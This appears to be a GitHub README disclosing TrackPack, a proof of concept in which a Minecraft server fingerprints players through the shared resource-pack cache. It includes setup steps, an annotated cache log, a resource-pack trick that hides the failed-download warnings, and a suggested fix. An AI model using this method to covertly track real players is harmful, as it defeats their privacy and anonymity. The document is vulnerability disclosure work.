



# TrackPack

> A Minecraft exploit that allows a malicious server to perform device fingerprinting using the server resource pack cache.

Discovered by: [Laggy](https://github.com/ALaggyDev/) and [NikOverflow](https://github.com/NikOverflow)

This vulnerability is **actively exploited** by `cytooxien.net`. At the end of June 2025, NikOverflow noticed strange error messages in the Minecraft logs ([see below](#is-this-exploit-truly-hidden)) and asked me (Laggy) to investigate. We soon uncovered two massive exploits used to secretly track unsuspecting players.

We have really discovered two exploits here:
- The main exploit, TrackPack, which allows a server to track players via the resource pack cache.
- A secondary exploit, which detects LiquidBounce (a hacked client) due to an oversight in its code.

This repository only covers the first exploit (TrackPack). For details on LiquidBounce detection, read our blog post!

[Read our blog post for more details!](https://alaggydev.github.io/posts/cytooxien/)

## What is TrackPack?

TrackPack allows a server to perform [device fingerprinting](https://en.wikipedia.org/wiki/Device_fingerprint) on its players.

Some players use VPNs and alternative accounts (alts) to play on servers. Traditionally, it was difficult for servers to link these accounts to the same person. However, with this exploit, the server can easily identify which accounts belong to the same user, making it trivial to detect ban evasion and alts.

Example server log:




From this, we can deduce that Player480 and Player565 are in fact the same player. This works even if the player switched IP.


The gist of the exploit is as follows:

Each time an account joins, the server sends a series of resource pack requests with invalid URLs.

By detecting which resource packs are already cached on the client side, the server can use such info to calculate a unique "fingerprint ID" for the player.

If no resource packs are cached, this means that the player has never joined the server before. If that's the case, the server sends some specially crafted resource pack requests with valid URLs, causing the client to cache them and marking the player with a unique "fingerprint ID".

You can read the PoC script in [TrackPack.java](src/main/java/laggy/trackpack/TrackPack.java).

## Running this PoC

1. Clone this repo
    ```
    git clone https://github.com/ALaggyDev/TrackPack.git
    cd TrackPack
    ```

2. Open this repo in your IDE (such as IntelliJ IDEA), and run `runServer` task.

3. Copy `http_pack_server/packs.json` into `run/plugins/TrackPack/pack.json`.

4. Change the following lines in `run/server.properties`
    ```
    require-resource-pack=true
    resource-pack=http\://127.0.0.1\:8000/packs/bad_pack.zip
    resource-pack-id=1b022475-c3a0-4dd9-949e-639d36849b59
    resource-pack-prompt=
    resource-pack-sha1=3296e8bdd30b4f7cffd11c780a1dc70da2948e71
    ```

5. Run this command in the background to open an HTTP server to serve resource packs.
    `py -m http.server 8000 -d ./http_pack_server`

6. Run the `runServer` task again. You can now connect to the server at `localhost`.

## Technical Details

### Tracking Players

The Mminecraft client caches downloaded server resource packs in the `.minecraft/downloads` folder. This folder, however, is shared between different accounts, making this exploit possible.

`.minecraft/downloads/log.json` actually captures the essence of the exploit quite well. So I am not going to do much explaining.
```json lines
// This is a simplified version of .minecraft/downloads/log.json.
// I have annotated certain events for clarification.

// The http pack server is hosted at http://127.0.0.1:8000.
// In real practice, the http pack server should be hosted externally.

// ---------- First time joining the server ----------

// The server resource pack in server.properties, we will discuss this in the next part.
{"file":{"name":"...","size":39561},"id":"1b022475-c3a0-4dd9-949e-639d36849b59","url":"http://127.0.0.1:8000/packs/bad_pack.zip"}

// The server sends out bad pack requests, and all pack requests fail because the packs are not cached in the client side.
{"error":"download_failed","id":"ffe8d5ef-8e6c-470d-b92b-b1694445ae21","url":"http://127.0.0.1:0"}
{"error":"download_failed","id":"e66dc06e-15ad-4724-bc58-88a457645132","url":"http://127.0.0.1:0"}
{"error":"download_failed","id":"847b79c9-f70f-41b9-8454-911ae61b9cd1","url":"http://127.0.0.1:0"}
{"error":"download_failed","id":"45d7f0db-7e51-4da3-bb83-64f2f8d1fcdf","url":"http://127.0.0.1:0"}
{"error":"download_failed","id":"aa1fca37-e26e-4175-af28-85e572b20bed","url":"http://127.0.0.1:0"}
{"error":"download_failed","id":"619f62c6-b9fe-4af5-a646-9e5f329e5894","url":"http://127.0.0.1:0"}
{"error":"download_failed","id":"b42ea9f3-0f75-47f1-bb3f-ca4b285af533","url":"http://127.0.0.1:0"}
{"error":"download_failed","id":"4e8afc37-7cd2-44b9-9669-dec0676a2670","url":"http://127.0.0.1:0"}
{"error":"download_failed","id":"f9063f37-4523-41ca-8542-aedc2ba4a9e8","url":"http://127.0.0.1:0"}
{"error":"download_failed","id":"dcf0f16d-29cc-46cc-9545-6c5f448763eb","url":"http://127.0.0.1:0"}
{"error":"download_failed","id":"866b0069-f78e-4ce8-a399-fd78d716f763","url":"http://127.0.0.1:0"}
{"error":"download_failed","id":"388cb453-d242-4b6d-ae54-55f6d9bd475e","url":"http://127.0.0.1:0"}
{"error":"download_failed","id":"31e72172-5f75-435d-b75e-d590da54f795","url":"http://127.0.0.1:0"}
{"error":"download_failed","id":"cf93df20-4c99-4ffa-82ac-bce74def1b06","url":"http://127.0.0.1:0"}
{"error":"download_failed","id":"8eaa8242-9a36-466d-9603-83cfcd46a44b","url":"http://127.0.0.1:0"}
{"error":"download_failed","id":"1e5ff365-e0ba-4b1f-b49d-323469792ada","url":"http://127.0.0.1:0"}
{"error":"download_failed","id":"4571f9f0-1865-4a4e-93b6-410c83132135","url":"http://127.0.0.1:0"}
{"error":"download_failed","id":"cb721457-54c3-4868-a927-0577997304da","url":"http://127.0.0.1:0"}
{"error":"download_failed","id":"3f2b7948-2eb4-4b1f-9844-bb8a5185f8d4","url":"http://127.0.0.1:0"}
{"error":"download_failed","id":"44fdf9e0-1670-4806-8099-19b705ee1a93","url":"http://127.0.0.1:0"}
{"error":"download_failed","id":"617f7291-61dc-48d7-bf0b-c9f1e4d01076","url":"http://127.0.0.1:0"}
{"error":"download_failed","id":"6ed50823-f743-42a8-ad96-454366c58031","url":"http://127.0.0.1:0"}
{"error":"download_failed","id":"bb9081d4-11ae-42a0-905c-cbdf63cb46fd","url":"http://127.0.0.1:0"}
{"error":"download_failed","id":"173297fd-059d-4259-8e20-236395172780","url":"http://127.0.0.1:0"}

// So, the server deliberately sends out good pack requests, and the client would cache them. A "fingerprint" belonging to the client is created.
{"file":{"name":"...","size":200},"id":"ffe8d5ef-8e6c-470d-b92b-b1694445ae21","url":"http://127.0.0.1:8000/packs/5"}
{"file":{"name":"...","size":201},"id":"847b79c9-f70f-41b9-8454-911ae61b9cd1","url":"http://127.0.0.1:8000/packs/23"}
{"file":{"name":"...","size":201},"id":"45d7f0db-7e51-4da3-bb83-64f2f8d1fcdf","url":"http://127.0.0.1:8000/packs/12"}
{"file":{"name":"...","size":201},"id":"aa1fca37-e26e-4175-af28-85e572b20bed","url":"http://127.0.0.1:8000/packs/13"}
{"file":{"name":"...","size":201},"id":"388cb453-d242-4b6d-ae54-55f6d9bd475e","url":"http://127.0.0.1:8000/packs/21"}
{"file":{"name":"...","size":200},"id":"cf93df20-4c99-4ffa-82ac-bce74def1b06","url":"http://127.0.0.1:8000/packs/2"}
{"file":{"name":"...","size":200},"id":"b42ea9f3-0f75-47f1-bb3f-ca4b285af533","url":"http://127.0.0.1:8000/packs/7"}
{"file":{"name":"...","size":201},"id":"1e5ff365-e0ba-4b1f-b49d-323469792ada","url":"http://127.0.0.1:8000/packs/20"}
{"file":{"name":"...","size":201},"id":"4571f9f0-1865-4a4e-93b6-410c83132135","url":"http://127.0.0.1:8000/packs/17"}
{"file":{"name":"...","size":201},"id":"3f2b7948-2eb4-4b1f-9844-bb8a5185f8d4","url":"http://127.0.0.1:8000/packs/16"}
{"file":{"name":"...","size":201},"id":"f9063f37-4523-41ca-8542-aedc2ba4a9e8","url":"http://127.0.0.1:8000/packs/18"}
{"file":{"name":"...","size":200},"id":"bb9081d4-11ae-42a0-905c-cbdf63cb46fd","url":"http://127.0.0.1:8000/packs/1"}

// ---------- Second time joining the server ----------

// The server resource pack in server.properties, we will discuss this in the next part.
{"file":{"name":"...","size":39561},"id":"1b022475-c3a0-4dd9-949e-639d36849b59","url":"http://127.0.0.1:8000/packs/bad_pack.zip"}

// Some pack requests succeed because the client already cached them, while some pack requests still fail.
// Thus, the server can use these infos to deduce the unique "fingerprint" belonging to the client.
{"file":{"name":"...","size":200},"id":"ffe8d5ef-8e6c-470d-b92b-b1694445ae21","url":"http://127.0.0.1:0"}
{"error":"download_failed","id":"e66dc06e-15ad-4724-bc58-88a457645132","url":"http://127.0.0.1:0"}
{"file":{"name":"...","size":201},"id":"847b79c9-f70f-41b9-8454-911ae61b9cd1","url":"http://127.0.0.1:0"}
{"file":{"name":"...","size":201},"id":"45d7f0db-7e51-4da3-bb83-64f2f8d1fcdf","url":"http://127.0.0.1:0"}
{"file":{"name":"...","size":201},"id":"aa1fca37-e26e-4175-af28-85e572b20bed","url":"http://127.0.0.1:0"}
{"error":"download_failed","id":"619f62c6-b9fe-4af5-a646-9e5f329e5894","url":"http://127.0.0.1:0"}
{"file":{"name":"...","size":200},"id":"b42ea9f3-0f75-47f1-bb3f-ca4b285af533","url":"http://127.0.0.1:0"}
{"error":"download_failed","id":"4e8afc37-7cd2-44b9-9669-dec0676a2670","url":"http://127.0.0.1:0"}
{"file":{"name":"...","size":201},"id":"f9063f37-4523-41ca-8542-aedc2ba4a9e8","url":"http://127.0.0.1:0"}
{"error":"download_failed","id":"dcf0f16d-29cc-46cc-9545-6c5f448763eb","url":"http://127.0.0.1:0"}
{"error":"download_failed","id":"866b0069-f78e-4ce8-a399-fd78d716f763","url":"http://127.0.0.1:0"}
{"file":{"name":"...","size":201},"id":"388cb453-d242-4b6d-ae54-55f6d9bd475e","url":"http://127.0.0.1:0"}
{"error":"download_failed","id":"31e72172-5f75-435d-b75e-d590da54f795","url":"http://127.0.0.1:0"}
{"file":{"name":"...","size":200},"id":"cf93df20-4c99-4ffa-82ac-bce74def1b06","url":"http://127.0.0.1:0"}
{"file":{"name":"...","size":201},"id":"1e5ff365-e0ba-4b1f-b49d-323469792ada","url":"http://127.0.0.1:0"}
{"file":{"name":"...","size":201},"id":"4571f9f0-1865-4a4e-93b6-410c83132135","url":"http://127.0.0.1:0"}
{"error":"download_failed","id":"cb721457-54c3-4868-a927-0577997304da","url":"http://127.0.0.1:0"}
{"file":{"name":"...","size":201},"id":"3f2b7948-2eb4-4b1f-9844-bb8a5185f8d4","url":"http://127.0.0.1:0"}
{"error":"download_failed","id":"44fdf9e0-1670-4806-8099-19b705ee1a93","url":"http://127.0.0.1:0"}
{"error":"download_failed","id":"617f7291-61dc-48d7-bf0b-c9f1e4d01076","url":"http://127.0.0.1:0"}
{"error":"download_failed","id":"6ed50823-f743-42a8-ad96-454366c58031","url":"http://127.0.0.1:0"}
{"file":{"name":"...","size":200},"id":"bb9081d4-11ae-42a0-905c-cbdf63cb46fd","url":"http://127.0.0.1:0"}
{"error":"download_failed","id":"173297fd-059d-4259-8e20-236395172780","url":"http://127.0.0.1:0"}
```

### Hiding Our Tracks

This exploit, as it is right now, can already be used to track players! However, there is a big catch - the players can actually see that something is wrong.



Clearly, this is not ideal. Luckily, there is a simple and hilarious way to fix this - we could simply make the messages invisible using server resource pack. (duh, resource pack again)

We can create a resource pack with the following items, and register it in `server.properties`:

- `assets/minecraft/lang/{LOCALE}.json`:
    ```json
    {
        "download.pack.failed": "",
        "download.pack.title": ""
    }
    ```
- `assets/minecraft/textures/gui/sprites/toast/system.png`:
    a transparent 160x32 png

This effectively makes the toast message invisible. It is still there technically, but you just can't see it. **The fact that a server resource pack can override such important messages is quite ridiculous and shocking.**

### Is This Exploit Truly Hidden?

No. But it is very difficult for a normal player to realize something malicious is going on.

When the exploit is active, the client generates a lot of error messages like this in the log:
```
[02:32:18] [Download-20/INFO] (Minecraft) Pack 22 failed to download
[02:32:18] [Download-20/ERROR] (Minecraft) Failed to download http://127.0.0.1:0
java.lang.IllegalStateException: Failed to download file http://127.0.0.1:0
at knot/net.minecraft.util.NetworkUtils.download(NetworkUtils.java:132) ~[minecraft-merged-b07cf08c30-1.21.6-net.fabricmc.yarn.1_21_6.1.21.6+build.1-v2.jar:?]
at knot/net.minecraft.util.Downloader.method_55485(Downloader.java:52) ~[minecraft-merged-b07cf08c30-1.21.6-net.fabricmc.yarn.1_21_6.1.21.6+build.1-v2.jar:?]
at java.base/java.util.HashMap.forEach(HashMap.java:1429) ~[?:?]
<...SKIPPED...>
```

However, a normal player would not check the log, let alone figure out this exploit.

But without this error message, NikOverflow would not have noticed anything suspicious, and I would not have investigated `cytooxien.net`. So yeah... Thanks for the error message! >3

## Possible Fix

Each account should have its own cache folder. This would prevent servers from gaining meaningful information about a player.